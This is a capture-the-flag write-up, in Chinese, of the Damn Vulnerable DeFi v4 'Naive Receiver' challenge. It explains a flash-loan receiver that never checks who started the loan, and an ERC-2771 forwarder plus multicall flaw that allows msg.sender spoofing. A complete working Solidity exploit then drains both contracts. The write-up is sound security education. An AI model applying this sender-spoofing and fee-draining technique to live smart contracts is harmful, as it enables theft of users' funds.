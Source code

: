 # Damn Vulnerable DeFi v4 - native receiver

- https://www.damnvulnerabledefi.xyz/challenges/naive-receiver/
- source code in https://github.com/wiasliaw/wiasliaw-ctf

## Check Condition

首先檢查通過的條件：

Player 只能發兩個以下的交易：

```solidity
assertLe(vm.getNonce(player), 2);
```

需要提走 receiver 所以的資金：

```solidity
assertEq(
    weth.balanceOf(address(receiver)),
    0,
    "Unexpected balance in receiver contract"
);
```

需要提走 pool 所以的資金：

```solidity
assertEq(
    weth.balanceOf(address(pool)),
    0,
    "Unexpected balance in pool"
);
```

提走的資金要轉入 recovery：

```solidity
assertEq(
    weth.balanceOf(recovery),
    WETH_IN_POOL + WETH_IN_RECEIVER,
    "Not enough WETH in recovery account"
);
```

## drain receiver (access control)

receiver (FlashLoanReceiver) 的問題是忽略了第一個參數 initiator。這個參數是 flashloan 的發起地址，一般需要檢查 initiator 是否可以發起 flashloan，忽略這個檢查會導致任何人都可以發起 flashloan 並執行 receiver 的 onFlashLoan：

```solidity
function onFlashLoan(address /* initiator */, address token, uint256 amount, uint256 fee, bytes calldata)
    external
    returns (bytes32)
{
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }
}
```

所以以 player 地址發起 flashloan 到 receiver 數次，就可以透過 flashloan 的手續費抽走 receiver 的所有資金。

## drain pool

ERC-2771 本來是一個為了 meta-transaction 設計的，如果 `msg.sender` 是被信任的地址，則會把 calldata 尾端 20 bytes 的資料作為 `msg.sender`：

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

但是和 multicall 一塊使用則可以將任意的 20 bytes 的資料作為 `msg.sender`：

```txt
// `++` means bytes concat

[caller = trustedForwarder]
calldata = Multicall.multicall([
  NaiveReceiverPool.withdraw( (WETH_IN_POOL+WETH_IN_RECEIVER), payable(recovery)) ++ address(deployer)
])
```

可以看到 `msg.sender` 是 trustedForwarder，以 multicall 執行 withdraw 時，就會將後面 20 bytes 的資料作為 `msg.sender`。

## solution

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    // drain receiver
    bytes[] memory multicallData = new bytes[](10);
    for (uint8 i = 0; i < 10; i++) {
        multicallData[i] = abi.encodeCall(
            NaiveReceiverPool.flashLoan,
            (receiver, address(weth), 1 ether, bytes(""))
        );
    }
    pool.multicall(multicallData);

    // drain pool
    multicallData = new bytes[](1);
    multicallData[0] = abi.encodePacked(
        abi.encodeCall(
            NaiveReceiverPool.withdraw,
            (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
        ),
        address(deployer)
    );

    BasicForwarder.Request memory req = BasicForwarder.Request({
        from: player,
        target: address(pool),
        value: 0,
        gas: gasleft(),
        nonce: 0,
        data: abi.encodeCall(Multicall.multicall, (multicallData)),
        deadline: block.timestamp
    });

    // // get hash and sign
    bytes32 reqHash = forwarder.getDataHash(req);
    bytes32 digest = keccak256(
        abi.encodePacked("\x19\x01", forwarder.domainSeparator(), reqHash)
    );
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
    forwarder.execute(req, abi.encodePacked(r, s, v));
}
```

## reference

- https://eips.ethereum.org/EIPS/eip-3156#receiver-specification
- https://eips.ethereum.org/EIPS/eip-2771

